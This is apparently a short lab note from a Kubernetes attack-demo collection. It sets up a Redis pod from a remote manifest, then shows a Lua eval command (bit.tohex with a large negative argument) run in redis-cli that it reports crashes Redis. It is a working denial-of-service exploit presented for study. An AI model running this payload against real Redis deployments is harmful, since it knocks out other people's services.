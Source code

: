 # Setup

```bash
kubectl apply -f https://k8s.adriansoftware.de/attacks/07/setup.yaml
```

# Attack

```bash
ID=$(kubectl get pods -o wide | grep redis | awk '{print $1}')
kubectl exec -it $ID -- /bin/bash
redis-cli
### in redis-cli
eval "return bit.tohex(65535, -2147483648)" 0
```

Redis crashes with error 137.